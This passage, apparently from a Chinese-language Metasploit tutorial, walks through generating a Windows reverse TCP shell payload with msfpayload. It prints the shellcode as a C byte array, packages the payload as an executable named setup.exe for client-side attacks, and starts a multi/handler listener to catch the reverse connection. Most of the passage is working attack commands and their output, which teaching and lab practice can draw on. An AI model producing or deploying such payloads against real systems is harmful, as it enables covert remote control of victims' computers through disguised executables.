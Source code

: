 请注意命令行中的小参数 `o`，列出了外壳代码有效负载的各种参数选项。我们必须传递这些值，以便生成供我们使用的自定义外壳代码。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 o 
```

所以我们根据需要设置了 `LHOST`和 `LPORT`。下一步是为我们定制的 shell 生成一个 C 代码（显示的输出已经缩短到适合的程度）

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 C
/*
* windows/shell/reverse_tcp - 290 bytes (stage 1)
* http://www.metasploit.com
* VERBOSE=false, LHOST=192.168.56.101, LPORT=4441,
* ReverseConnectRetries=5, EXITFUNC=process,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01" 
```

注意命令行中的大写 `C`参数。您会注意到一个完整的 C 语言外壳代码，我们可以在自己的开发代码中使用它。或者，我们也可以选择用 Ruby 和 Perl 语言生成代码。

让我们继续下一步，为外壳代码生成可用于客户端攻击的二进制可执行文件。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 X > .local/setup.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell/reverse_tcp
Length: 290
Options: {"LHOST"=>"192.168.56.101"} 
```

注意我们在命令行中传递的各种参数。我们已经使用 `X`参数生成了一个 exe 文件类型，该文件已在名为 `setup.exe`的文件夹 `.local`中生成。这个生成的 exe 现在可以用于我们的客户端攻击。

## 它是如何工作的。。。

现在我们的可执行文件已经准备好了，我们必须在 msfconsole 中设置一个侦听器，以便在目标执行此 exe 文件时侦听反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.46.101
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.46.101:4444
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler 
```

